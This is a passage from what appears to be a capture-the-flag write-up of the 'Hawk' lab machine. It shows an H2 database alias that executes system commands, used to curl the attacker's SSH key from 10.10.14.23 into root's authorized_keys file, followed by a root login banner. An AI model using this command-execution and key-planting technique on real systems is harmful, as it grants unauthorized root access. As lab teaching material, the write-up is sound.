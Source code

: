 ![H2 URL](/assets/images/htb-writeup-hawk/h2sql2.png)

![H2 URL](/assets/images/htb-writeup-hawk/h2sql3.png)

In this case we are dropping our SSH public key in the root `authorized_keys` file:

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;

CALL SHELLEXEC('curl 10.10.14.23/id_rsa.pub -o /root/.ssh/authorized_keys')
```

We can then log in as root and grab the root flag:

```
root@violentunicorn:~/.ssh# ssh root@10.10.10.102
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jul 15 00:00:21 UTC 2018

  System load:  0.03              Processes:            113
  Usage of /:   54.1% of 9.78GB   Users logged in:      1
  Memory usage: 57%               IP address for ens33: 10.10.10.102
  Swap usage:   0%
```